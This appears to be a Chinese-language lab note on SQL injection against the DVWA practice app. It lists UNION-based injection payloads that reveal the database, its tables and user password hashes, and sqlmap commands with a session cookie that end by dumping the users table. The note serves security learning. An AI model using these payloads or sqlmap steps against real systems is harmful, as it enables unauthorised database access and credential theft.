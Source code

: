 # dvwa SQL注入

判断是否有漏洞
1' and 1=1#
1' and 1=2#

判断列数
1' order by 1#
1' order by 2#
直到报错

查询使用的数据库
1' union select user(),database()#

查询数据库中的表
1' union select table_name,table_schema from information_schema.tables where table_schema='dvwa'#

查询表中一些列的数据
1' union select user,password from users#


sqlmap
[是否有漏洞]
python sqlmap.py -u "http://192.168.234.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=dm5oqturp0hpbinoaq3ujmoh35; security=low"
[获取数据库]
python sqlmap.py -u "http://192.168.234.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=dm5oqturp0hpbinoaq3ujmoh35; security=low" --dbs
[获取指定数据库表]
python sqlmap.py -u "http://192.168.234.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=dm5oqturp0hpbinoaq3ujmoh35; security=low" -D dvwa --tables
[获取指定数据库表列]
python sqlmap.py -u "http://192.168.234.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=dm5oqturp0hpbinoaq3ujmoh35; security=low" -D dvwa -T users --columns
python sqlmap.py -u "http://192.168.234.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=dm5oqturp0hpbinoaq3ujmoh35; security=low" -D dvwa -T users --dump